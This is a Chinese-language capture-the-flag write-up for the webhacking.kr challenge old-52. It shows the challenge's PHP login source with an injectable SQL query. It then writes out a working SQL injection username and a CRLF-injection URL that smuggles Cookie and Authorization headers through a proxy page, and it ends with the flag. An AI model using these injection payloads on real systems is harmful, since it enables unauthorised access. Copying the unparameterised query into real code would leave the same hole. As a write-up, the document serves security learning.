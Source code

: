 # old-52_400

* 這一題一進去就清楚的告訴我們要進到 admin page 中，還有什麼 proxy 的東東，是一個大伏筆，出這一題的是一個狠人 ...
* 先在 admin page 中登入 `guest/guest` 發現沒什麼有用的資訊
* 於是 logout 之後按了 cancel 可以看到 login failed 以及 source code
    ```php=
    include "config.php";
    if($_GET['view_source']) view_source();
    if($_GET['logout'] == 1){
      $_SESSION['login']="";
      exit("<script>location.href='./';</script>");
    }
    if($_SESSION['login']){
      echo "hi {$_SESSION['login']}<br>";
      if($_SESSION['login'] == "admin"){
        if(preg_match("/^172\.17\.0\./",$_SERVER['REMOTE_ADDR'])) echo $flag;
        else echo "Only access from virtual IP address";
      }
      else echo "You are not admin";
      echo "<br><a href=./?logout=1>[logout]</a>";
      exit;
    }
    if(!$_SESSION['login']){
      if(preg_match("/logout=1/",$_SERVER['HTTP_REFERER'])){
        header('WWW-Authenticate: Basic realm="Protected Area"');
        header('HTTP/1.0 401 Unauthorized');
      }
      if($_SERVER['PHP_AUTH_USER']){
        $id = $_SERVER['PHP_AUTH_USER'];
        $pw = $_SERVER['PHP_AUTH_PW'];
        $pw = md5($pw);
        $db = dbconnect();
        $query = "select id from member where id='{$id}' and pw='{$pw}'";
        $result = mysqli_fetch_array(mysqli_query($db,$query));
        if($result['id']){
          $_SESSION['login'] = $result['id'];
          exit("<script>location.href='./';</script>");
        }
      }
      if(!$_SESSION['login']){
        header('WWW-Authenticate: Basic realm="Protected Area"');
        header('HTTP/1.0 401 Unauthorized');
        echo "Login Fail";
      }
    }
    ```
* 先分析一下 sql 的部分，可以發現是一個非常簡單的 sql injection，注入點在 id 的地方，於是回到 admin page 中 login 一下 `admin' -- /123` 可以發現有了以下的資訊
    ```
    hi admin
    Only access from virtual IP address
    ```
* 再看到 source code 可以發現如果我們成功登入了 admin 還有一個條件我們才能拿到 flag，條件就是 remote address 滿足 regular expression
* 如果直接看的話這簡直就是不可能的事 ... 查了一下 remote address : 可能是用户真实IP也可能是代理IP ... 代理 IP！？！？
* 這時看到 proxy，原來這就是為什麼會有這一個莫名的東東在這裡的原因拉
* 訪問 `http://webhacking.kr:10008/proxy.php?page=/admin/` 可以得到
    ```
    Request
    GET /admin/ HTTP/1.1
    Host: webhacking.kr:10008
    Connection: Close


    Response
    HTTP/1.0 401 Unauthorized
    Date: Sun, 12 Jul 2020 12:50:15 GMT
    Server: Apache/2.4.29 (Ubuntu)
    Set-Cookie: PHPSESSID=9pimvgugsd2a8t372n26bnd2qt; path=/
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate
    Pragma: no-cache
    WWW-Authenticate: Basic realm="Protected Area"
    Content-Length: 55
    Connection: close
    Content-Type: text/html; charset=UTF-8

    Login Fail
    view-source
    ```
* 在這裡可以發現，我們唯一可控的地方在 page 這個 param 上，而他控制的地方在 
    `GET /admin/ ` 所以想到 crlf injection `%0d%0a`
* 現在的問題是，要新增什麼樣的資訊讓 admin page 透過這個 proxy 吐出 flag
* 稍微折騰了一下，必要的有 `Authorization: Basic ` 以及 `Cookie: PHPSESSID=your_phpsessid`
* 所以訪問 `http://webhacking.kr:10008/proxy.php?page=/admin/+HTTP/1.1%0d%0aCookie:+PHPSESSID=your_phpsessid%0d%0aAuthorization:+Basic+YWRtaW4nIC0tIDoxMjM=%0d%0a` 就可以拿到 flag 拉
* flag : FLAG{Server_Side_Request_Forgery_with_proxy!}
